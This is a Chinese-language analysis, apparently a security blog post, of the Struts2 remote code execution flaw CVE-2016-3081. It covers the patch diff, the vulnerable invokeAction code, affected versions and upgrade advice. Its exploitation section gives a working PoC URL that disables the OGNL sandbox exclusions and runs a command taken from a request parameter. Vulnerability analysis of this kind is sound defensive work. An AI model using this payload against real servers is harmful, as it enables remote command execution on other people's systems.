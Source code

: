 # Struts2方法调用远程代码执行漏洞（CVE-2016-3081）分析

0x00 漏洞简述
=====

2016年4月21日Struts2官方发布两个CVE，其中CVE-2016-3081官方评级为高。主要原因为在用户开启动态方法调用的情况下，会被攻击者实现远程代码执行攻击。从我自己搜索的情况来看，国内开启这个功能的网站不在少数，所以这个“Possible Remote Code Execution”漏洞的被打的可能性还是很高的。

0x01 漏洞原理
=====

直接进行版本比对，我们可以看到针对这个问题，只对DefaultActionMapper.java这个文件进行了修改，修改内容如下：

![enter image description here](http://drops.javaweb.org/uploads/images/14430c7c76de88833d8b8c57274f85347f0d970d.jpg)

我们可以看到只是把method成员变量的值进行了一次过滤，cleanupActionName这个方法是在对“action:”滥用的问题进行添加的，禁止了绝大多数的特殊字符。但是在后来的版本变更中忽略了之前的问题，将method也引入了Ongl表达式，代码在DefaultAction.java的invokeAction中：

```
protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
    String methodName = proxy.getMethod();

    if (LOG.isDebugEnabled()) {
        LOG.debug("Executing action method = #0", methodName);
    }

    String timerKey = "invokeAction: " + proxy.getActionName();
    try {
        UtilTimerStack.push(timerKey);

        Object methodResult;
        try {
            methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);

```

我们可以看到methodName被带入到getValue了，熟悉Struts相关漏洞的朋友应该都明白这是什么意思，虽然后面被强制添加了一对圆括号，但是想办法语法补齐就好了。相对应的我们来看下在2.3.18版本之前的代码是怎么处理methodName的：

```
protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
    String methodName = proxy.getMethod();

    if (LOG.isDebugEnabled()) {
        LOG.debug("Executing action method = #0", methodName);
    }

    String timerKey = "invokeAction: " + proxy.getActionName();
    try {
        UtilTimerStack.push(timerKey);

        boolean methodCalled = false;
        Object methodResult = null;
        Method method = null;
        try {
            method = getAction().getClass().getMethod(methodName, EMPTY_CLASS_ARRAY);

```

在这里使用的是反射，所以在这个漏洞发布的时候，我曾一瞬间觉得又是一个骗CVE的鸡肋，但是事实上，这是一个威胁很大的漏洞。但是官方说的受影响版本`Struts 2.0.0 - Struts Struts 2.3.28 (except 2.3.20.2 and 2.3.24.2)`是不严谨的，应该是`2.3.18-2.3.28(except 2.3.20.2 and 2.3.24.2)`。

0x02 漏洞利用
=====

利用方式主要难点在于两个地方，一个是上文提到的对于表达式最后的圆括号给予正确的表达式意义。另一个就是在传输过程中method会经过一次转义，双引号和单引号的没有办法使用了，所以需要找到一个绕过。剩下的就是原来套沙盒绕过，命令执行的那套东西了。

对于圆括号，可以直接使用`new java.lang.String`这样来拼接成`new java.lang.String()`构成正确Ognl语法。

至于不能使用引号的话，命令执行我们可以使用引用参数的方法来完成对字符串的提取，例如：使用#parameters.cmd来提取http的cmd参数。测试PoC如下：

> http://172.16.107.143:8080/Struts2_3_18/hello.action?cmd=gedit&method:(%23_memberAccess).setExcludedClasses(@java.util.Collections@EMPTY_SET),(%23_memberAccess).setExcludedPackageNamePatterns(@java.util.Collections@EMPTY_SET),%23cmd%3d%23parameters.cmd,%23a%3dnew%20java.lang.ProcessBuilder(%23cmd).start().getInputStream(),new java.lang.String

效果如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/10c1fac889ccce6fb461af8e7a5a577e984be5af.jpg)

这里我小小的猜测一下，官方发布的日期是20，而漏洞提交team做宣传是在4月25日，那么是不是在提交CVE时还没有完成弹计算器的利用，还是为了符合漏洞提交规范做的延时？小八卦一下O(∩_∩)O。

0x03 漏洞总结
=====

虽然现在CVE已经发布，但是从目前网络情况上（twitter和微博）来看，并没有安全研究人员关注到这两个CVE，可能是因为官方发布过太多鸡肋的CVE了，国内的各路炒洞高手已经对Struts2麻木了。所以目前的情况是属于漏洞存在那里，发了CVE，但是没有任何人去研究利用，发布相关分析。这个漏洞和Struts2前N次被炒的热热闹闹的漏洞影响和危害相比，真是不可同日而语，这个漏洞真的很实在。

看到这里，打算磨拳擦掌要去调回显PoC的朋友们，这里我要在提醒一次。虽然我在之前说了存在这个问题的站点很多，但是这个漏洞存在版本限制，在Struts2.3.18及其以上的版本才可以触发。而国内大多数的站点由于Struts在2.3.16之后再也没有出现过大的问题，所以绝大多数停留在2.3.16这个版本，这让这个看似很不错的漏洞略显鸡肋了。

**防护方案**

目前官方已经推出了`2.3.20.2、2.3.24.2`和`2.3.28.1`修复了这个问题，大家可以针对自己所使用的版本进行升级。下载地址：[https://struts.apache.org/download.cgi#struts23281](https://struts.apache.org/download.cgi#struts23281)